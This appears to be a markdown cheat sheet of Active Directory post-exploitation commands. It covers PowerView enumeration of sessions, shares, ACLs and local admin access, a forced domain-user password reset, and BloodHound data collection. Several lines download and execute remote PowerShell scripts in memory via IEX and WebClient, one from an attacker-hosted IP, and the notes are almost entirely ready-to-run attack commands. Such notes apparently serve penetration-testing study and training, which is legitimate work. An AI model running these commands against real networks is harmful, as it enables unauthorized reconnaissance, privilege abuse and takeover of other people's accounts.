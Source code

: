 ``` powershell
# currently logged in users

Get-NetLoggedon -ComputerName client251

# active sessions to DC

Get-NetSession -ComputerName dc01

```

* enumerating shares

`Get-NetShare`

* Identifying privileges

```powershell

# what kind of permissions does a user within domain have
Get-NetEffectivePermissions -Identity <username> -Domain <domain_name> -ObjectName <object_name>
# omit object name to see permissions for all objects

#find computers where local user has admin access

Find-LocalAdminAccess

# get exact permission type for some identity

Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

```

* change domain user password if you got permissions for that

```powershell
$UserPassword = ConvertTo-SecureString 'Password1' -AsPlainText -Force

#user powerview for that 
IEX(New-Object Net.WebClient).downloadString('http://192.168.45.xxx/PowerView.ps1'); Set-DomainUserPassword -Identity robert -AccountPassword $UserPassword
```

### Bloodhound

Actual collectors: https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

Get Sharphound on target host to collect data for Bloodhound

`IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1') ; Invoke-BloodHound`

Remote invokation:

`./bloodhound.py -d xxx.local -u xxxxxx -p xxx -gc xxx.xxx.local -c all -ns 10.10.10.xxx`
